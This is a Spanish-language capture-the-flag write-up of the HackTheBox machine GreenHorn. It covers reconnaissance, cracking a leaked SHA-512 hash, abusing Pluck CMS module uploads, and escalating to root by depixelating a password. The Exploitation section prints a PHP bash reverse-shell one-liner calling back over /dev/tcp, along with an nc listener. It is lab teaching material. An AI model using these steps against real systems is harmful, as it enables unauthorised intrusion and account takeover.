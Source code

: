 ```yaml
---
title: Writeup de la máquina GreenHorn
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [pluck, depix]  # TAG names should always be lowercase
---
```


![picture](/assets/images/hackthebox/greenhorn1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos, será un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina, y conocer los servicios que corren por ellos.

```bash
nmap -p- --open -T5 10.10.11.25 -n -Pn -v
```

![picture](/assets/images/hackthebox/greenhorn2.png)

Añadimos el dominio **greenhorn.htb** junto con la *IP* al archivo **/etc/hosts**, esto se realiza para que resuelva el nombre del dominio.

![picture](/assets/images/hackthebox/greenhorn3.png)

Al no encontrar ningún puerto interesante por el que se pueda intentar algún tipo de explotación, vamos al navegador a ver de que se trata la página web tanto con el puerto **80**, como con el **3000**.

1. Puerto 80
    - Tras revisar la página web y su código, en busca de algún tipo de información, no he encontrado nada.

    ![picture](/assets/images/hackthebox/green4.png)

    - Haciendo un poco de **Fuzzing** manual, encontramos la ruta *http://greenhorn.htb/login.php*, en la que hay un panel de login de **Pluck** (gestor de contenidos CMS), con versión **4.7.18**, probando contraseñas comunes no he obtenido resultado.

    ![picture](/assets/images/hackthebox/green5.png)

2. Puerto 3000
    - En este puerto encontramos una web de **Gitea**, que es un paquete de software de código abierto para alojar el control de versiones utilizando **Git**. Navegando en esta web encontramos un repositorio llamado **GreenAdmin**.

    ![picture](/assets/images/hackthebox/green6.png)

    - Viendo el contenido de las carpetas del repositorio, nos encontramos con una contraseña cifrada en ***/data/settings***.

    ![picture](/assets/images/hackthebox/green7.png)

    ---

## **Explotación**

A continuación, vamos a intentar crackear la contraseña con ***John The Ripper*** en nuestra máquina local.

- Identificamos el tipo de cifrado hash con la herramienta **hash-identifier**, y vemos que el hash es del tipo "*SHA-512*".

    ![picture](/assets/images/hackthebox/green88.png)

- Se procede a crackear la contraseña cifrada, en busca de la contraseña en texto claro.

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512 hash.txt
    ```

    ![picture](/assets/images/hackthebox/green9.png)

Una vez encontrada la contraseña, se va a probar a entrar el el panel de **PLUCK**, y obtengo acceso.

![picture](/assets/images/hackthebox/green10.png)

Buscando en internet encontramos que la versión de **PLUCK** es vulnerable, en la parte de instalar módulos, podemos subir un archivo **.php**, el cual nos lo va a ejecutar.
La idea es subir una una **Reverse Shell** sencilla, pero hay un inconveniente, este CMS solo deja subir archivos **.zip**, con lo cual tendremos que modificar el archivo y crear un ***.zip***.

![picture](/assets/images/hackthebox/green11.png)

Nos ponemos en escucha con un **Listener** por el puerto **4444**, para que cuando subamos el archivo y nos ejecute la **Reverse Shell**, nos envíe una **Shell interactiva** a nuestra máquina local.

- Listener

    ```bash
    nc -nlvp 4444
    ```
- Reverse Shell (contenido)

    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/Nuestra Ip/4444 0>&1'");
    ```

Y subimos el archivo **.zip**.

![picture](/assets/images/hackthebox/green12.png)

Una vez subido el archivo, nos envía la **Shell interactiva**, y estamos dentro de la máquina con el ussuario **www-data**.

![picture](/assets/images/hackthebox/green13.png)

---

## **Escalada de privilegios**

En el directorio **/home** encontramos un usuario llamado **junior**, probamos a conectarnos con la contraseña encontrada antes, y obtenemos acceso.

![picture](/assets/images/hackthebox/green14.png)

En el directorio personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/green15.png)

En el directorio personal, también encontramos un **pdf**, el cual nos lo vamos a traer a la máquina local para poder comprobar el contenido, para ello montamos un **servidor http** con **Python3** por el puerto **1234**, y nos lo descargamos con **wget** desde la máquina local.

```bash
python3 -m http.server 1234
```

![picture](/assets/images/hackthebox/green16.png)


Vemos que es una imagen con este texto, y una contraseña *pixelizada* e *ilegible*.

![picture](/assets/images/hackthebox/green17.png){: w="600" h="300" }

Para poder leer el contenido de la contraseña, vamos a utilizar una herramienta llamada ***DEPIX***, la cual podemos encontrar en [GitHub](https://github.com/spipm/Depix).

Antes convertimos el *pdf* al formato *ppm* con **pdfimages**.

![picture](/assets/images/hackthebox/green18.png)

Seguimos los pasos como lo indican en el repositorio de *GitHub*.

![picture](/assets/images/hackthebox/green19.png)

Y nos crea un archivo con la contraseña legible.

![picture](/assets/images/hackthebox/green20.png)

Probamos a migrar al usuario **privilegiado** **root**, obtenemos acceso, y en su directorio personal tenemos la segunda **flag**.

![picture](/assets/images/hackthebox/green21.png)

![picture](/assets/images/hackthebox/green22.png)


